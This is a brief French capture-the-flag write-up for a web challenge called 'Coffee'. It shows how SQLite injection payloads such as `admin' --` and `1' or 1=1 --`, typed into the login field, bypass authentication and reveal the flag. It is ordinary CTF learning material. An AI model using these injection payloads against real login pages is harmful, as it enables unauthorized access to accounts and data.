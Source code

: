 # WriteUp Coffee

Url du challenge: https://coffee.0xhorizon.eu/

On se retrouve sur une page de login.
On test des login/password classic pour voir(ex: admin/admin, root/root).Rien de bien fou toujours le même message.

## SQL Injection

Essayons une injection sql en **sqlite** pour bypass cette page de connexion:

- **login**: `1' or 1=1 --` -- sont présent pour commenter le reste de la requête.
- **password**: `a` champ obligatoire.

Message:

```bash
Hello user1
Your message: I want coffee...
```

Victoire on a reussit à faire une injection cependant on a pas le bon user.
Essayons la même avec le login admin:

- login: `admin' or 1=1 --`
- password: `a`

Message:

```bash
There is not any user with an username or a password so long :(
```

Ahhh on est limité en therme de caractère.
testons encore plus simple:

- login: `admin' --`
- password: `a`

Message:

```
Hello admin
Your message: Coffee code: horiz0nx{FLAG}
```

GG!
